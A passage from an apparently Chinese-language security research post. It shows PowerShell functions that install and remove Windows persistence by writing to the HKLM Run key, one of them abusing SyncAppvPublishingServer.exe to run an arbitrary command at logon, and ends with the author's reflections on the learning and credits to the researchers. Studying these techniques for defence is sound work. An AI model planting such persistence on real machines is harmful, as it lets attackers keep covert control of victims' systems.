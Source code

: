 ```

	Remove-ItemProperty -Path $Autoruns -Name $infdefaultinstall
}

function InstallAutoRuns-SyncAppvPublishing
{
	param
		(
			[Parameter(Mandatory = $True)]
			[string]$Cmd
		)
	$SyncAppvPublishing = '"C:\Windows\system32\SyncAppvPublishingServer.exe".; ' + $Cmd + '""'
	$AutoRuns = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"

	Set-ItemProperty -Path $Autoruns -Name "SyncAppvPublishing" -Value $SyncAppvPublishing -Type ExpandString

}

function UninstallAutoRuns-SyncAppvPublishing
{
	$AutoRuns = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
	Remove-ItemProperty -Path $Autoruns -Name "SyncAppvPublishing"
}
```

# **學習總結**
我需要花更多的時間學習和撰寫PowerShell。這個腳本效率很差，它應可更加動態。另外，做研究的人並不總是可以回答問題的答案，所以我在12天前通過Twitter DM聯繫了Kyle，詢問有關“InfDefaultInstall.exe”和“Squiblydoo INF”持久性技術的問題，但他至今未回OAQ。
你所能做的最好防禦是充分理解此研究並將其應用到實務中。記錄你的探索旅程也很有幫助，我希望有人比我更聰明，可以填補這裡的技術空白。
![](https://i.imgur.com/AdAagPV.png)

來源                                                                                                                                                      
[Chris Bisnett (@chrisbisnett)](https://twitter.com/chrisbisnett)                    
[Kyle Hanslovan (@KyleHanslovan)](https://twitter.com/KyleHanslovan)